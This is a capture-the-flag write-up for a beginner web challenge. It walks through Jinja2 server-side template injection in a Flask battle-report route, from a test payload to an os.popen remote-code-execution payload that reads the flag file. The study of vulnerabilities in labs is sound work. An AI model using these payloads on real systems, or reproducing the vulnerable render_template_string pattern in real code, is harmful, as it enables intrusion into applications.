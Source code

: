# Trial by Fire - Web Challenge (Very Easy)

## Overview
Trial by Fire is a beginner-friendly web challenge that walks us through Server-Side Template Injection (SSTI) leading to Remote Code Execution (RCE). Simple premise, but a fun way to sharpen those web exploitation skills.

## Required Knowledge
- Basic Python
- Jinja2 templating

## What You’ll Learn
- Identifying and exploiting SSTI vulnerabilities
- Pivoting SSTI into RCE

---

## Initial Recon
Hitting the site, we're greeted with a basic form asking for the warrior's name.

![Game Start](./assets/preview.png)

After entering a name, we’re dropped into a turn-based battle. We attack the dragon, it hits back, and the fight continues.

![Battle](./assets/game.png)

Once the battle ends, a results page pops up showing our stats.

![Results](./assets/results.png)

At first glance, it looks like a simple game. But something smells off, so let’s dig in.

---

## Finding the Vulnerability
Checking the source code, we stumble upon this snippet in `/battle-report`:

```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    stats = {
        . . .
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'turns_survived': request.form.get('turns_survived', "0")
        . . .
    }

    REPORT_TEMPLATE = f"""
        . . .
        <p class="title">Battle Statistics</p>
        <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
        . . .
        <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
        . . .
    """

    return render_template_string(REPORT_TEMPLATE)
```

Right away, `render_template_string()` jumps out as a red flag. It’s taking user input (`damage_dealt`, `turns_survived`) and dumping it straight into the template. Classic SSTI setup.

---

## Exploiting SSTI
First, let's confirm SSTI by sending `{{ 7 * 7 }}` and seeing if it evaluates.

```python
import requests

BASE_URL = "http://127.0.0.1:1337"

payload = "{{ 7 * 7 }}"

response = requests.post(f"{BASE_URL}/battle-report", data={
    "damage_dealt": payload
})

print(response.text) # <p>🗡️ Damage Dealt: <span class="nes-text is-success">49</span></p>
```

Boom. We get `49` back. SSTI confirmed. Now, time to escalate to RCE.

---

## Failed Attack Vectors
Before jumping to the winning payload, let’s cover a few dead ends:

1. **Basic Python Execution**
   - Tried `{{ 2+2 }}` just to confirm evaluation. Worked fine.
   - Attempted `{{ config }}` to leak Flask settings, but it wasn’t exposed.

2. **Classic OS Command Execution**
   - `{{ self.__class__.__mro__ }}` to inspect inheritance—didn’t lead anywhere useful.
   - `{{ ''.__class__.__mro__[1].__subclasses__() }}` gave a massive list of Python classes, but nothing directly exploitable.

At this point, we needed a way to interact with the system itself. 

---

## Achieving RCE
Leveraging the `sys` module, we finally get OS command execution:

```python
{{ url_for.__globals__.sys.modules.os.popen('cat flag.txt').read() }}
```

And just like that, we pop the flag! 🏴

---

## Takeaways
- **Always check how user input is handled**—`render_template_string()` is a dead giveaway for SSTI.
- **Don’t stop at SSTI confirmation**—think about how to pivot to RCE.
- **Failed attempts teach just as much as successful ones**—understanding what doesn't work refines your approach.

Another CTF down. Onto the next! 🚀

